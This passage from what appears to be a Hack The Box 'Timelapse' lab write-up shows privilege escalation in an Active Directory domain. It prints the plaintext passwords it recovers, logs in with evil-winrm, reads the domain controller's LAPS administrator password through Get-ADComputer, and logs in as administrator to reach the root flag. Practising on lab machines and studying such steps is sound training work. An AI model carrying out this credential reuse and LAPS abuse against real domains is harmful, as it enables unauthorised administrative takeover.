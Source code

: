 We found a new set of credentials: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`.


## LAPS_Readers

Signed in with `evil-winrm`:

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

Noted that the user `svc_deploy` is a member of the group `LAPS_Readers`, which indicates `svc_deploy` has access to read from LAPS. Local Administrator Password Solution (LAPS) is a tool used for managing a system where administrator passwords, which are unique, randomized, and frequently changed, are applied to domain-joined computers. In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: 
`ms-mcs-AdmPwd` and `ms-mcs-AdmPwdExpirationTime`. These attributes store the plain-text administrator password and its expiration time, respectively.

Can check if service is enabled:

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
```

To read the LAPS password, I just need to use `Get-ADComputer` and specifically request the `ms-mcs-admpwd` property:

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : #4{r284#V9#4+o5kIdJv}535
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

Can see the password for the local admin and logged into to get the root flag:

```bash
evil-winrm -i 10.10.11.152 -u administrator -p '#4{r284#V9#4+o5kIdJv}535' -S

*Evil-WinRM* PS C:\Users\TRX\Desktop> dir


    Directory: C:\Users\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/15/2024  11:30 AM             34 root.txt
```
